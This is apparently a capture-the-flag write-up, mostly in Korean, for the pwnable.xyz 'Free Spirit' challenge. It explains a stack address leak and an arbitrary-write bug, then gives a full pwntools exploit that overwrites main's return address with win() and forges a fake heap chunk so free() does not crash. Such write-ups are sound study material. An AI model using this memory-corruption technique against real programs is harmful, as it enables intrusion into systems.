# [pwnable.xyz] Free Spirit

> Free is misbehaving.

## Bug

### Stack address leak

![image](https://github.com/user-attachments/assets/174c4db4-bcb7-4303-a730-79ca93da94f4)

### Arbitrary address write

![image](https://github.com/user-attachments/assets/fd6b95fd-0afe-44a1-9afc-331d3ac695ca)

![image](https://github.com/user-attachments/assets/7b9cdd48-359b-445b-9208-77fc0cf1c19e)

`malloc`으로 할당받은 메모리에서 `0x10`바이트를 읽어와서 `rsp+8`에 있는 `v8`에 넣는데, 할당받은 메모리의 주소가 `rsp+0x10`에 있기 때문에 이 주소를 임의의 주소로 덮어쓸 수 있다.

![image](https://github.com/user-attachments/assets/266ed52c-3e39-40fe-8437-1a8ce2889157)

이후에 그 주소에 임의의 `0x20`바이트 값을 쓸 수 있다.

## Exploit

`main()`의 return address를 `win()`의 주소로 덮어쓰면 플래그를 획득할 수 있다.

`return` 전에 `free()`에서 터지지 않도록 `free()`에 들어가는 주소에 fake chunk 구조를 만들어 주어야 한다.

```python
from pwn import *

r = remote("svc.pwnable.xyz", 30005)

sla = r.sendlineafter
sa = r.sendafter

win = 0x400A3E

sla(b"> ", b"2")  # stack leak
rsp = int(r.recvline()[2:-1], 16) - 0x10  # rsp of main()

sla(b"> ", b"1")
r.send(b"a" * 8 + p64(rsp + 0x68))  # rsp+0x68 -> return address of main
sla(b"> ", b"3")

sla(b"> ", b"1")  # ret overwrite
r.send(p64(win) + p64(rsp + 0x78))  # rsp+0x78 -> size field of fake chunk
sla(b"> ", b"3")

sla(b"> ", b"1")  # make fake chunk
r.send(
    p64(0x21) + p64(rsp + 0x80) + p64(0) + p64(0x20)
)  # rsp+0x80 -> address of fake chunk
sla(b"> ", b"3")

sla(b"> ", b"0")

r.interactive()
```

![image](https://github.com/user-attachments/assets/dde07ddc-f024-4414-b400-ddd28aab3df2)
